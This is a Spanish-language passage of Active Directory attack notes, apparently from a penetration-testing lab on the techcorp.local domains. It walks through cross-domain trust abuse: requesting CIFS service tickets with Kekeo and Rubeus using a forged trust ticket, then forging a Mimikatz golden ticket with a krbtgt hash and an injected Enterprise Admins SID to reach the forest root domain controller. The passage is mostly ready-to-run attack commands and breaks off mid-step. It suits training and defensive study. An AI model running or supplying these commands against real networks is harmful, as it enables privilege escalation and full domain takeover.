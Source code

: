     ![/assets/images/images_AD/Cross%20Trust%20Attacks/Untitled%204.png](/assets/images/images_AD/Cross%20Trust%20Attacks/Untitled%204.png)

- Obtenga un TGS para un servicio (CIFS a continuación) en el dominio de destino utilizando el ticket de confianza falsificado con Kekeo ([https://github.com/gentilkiwi/kekeo/](https://github.com/gentilkiwi/kekeo/)):

    `tgs::ask /tgt:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local`

- También se pueden crear tickets para otros servicios (como HOST y RPCSS para WMI, HOST y HTTP para PowerShell Remoting y WinRM)
- Utilice el TGS para acceder al servicio de destino (es posible que deba utilizarlo dos veces).

    `misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCAL@US.TECHCORP.LOCAL.kirbi`

    `ls \\techcorp-dc.techcorp.local\c$`

- Usando Rubeus:

    `.\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorpdc.techcorp.local /ptt`

    `ls \\techcorp-dc.techcorp.local\c$`

**Cross Domain Attacks – Child to Forest Root -krbtgt**

- Abusaremos del historial de SID una vez más

    `Invoke-Mimikatz -Command '"kerberos::golden 
    /user:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 
    /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt"'`

- En el comando anterior, la opción mimkatz "/ sids" establece de manera forzosa el historial de SID para el grupo de administración empresarial para us.techcorp.local, que es el grupo de administración empresarial forestal.
- Ahora podemos acceder a techcorp-dc como administrador:
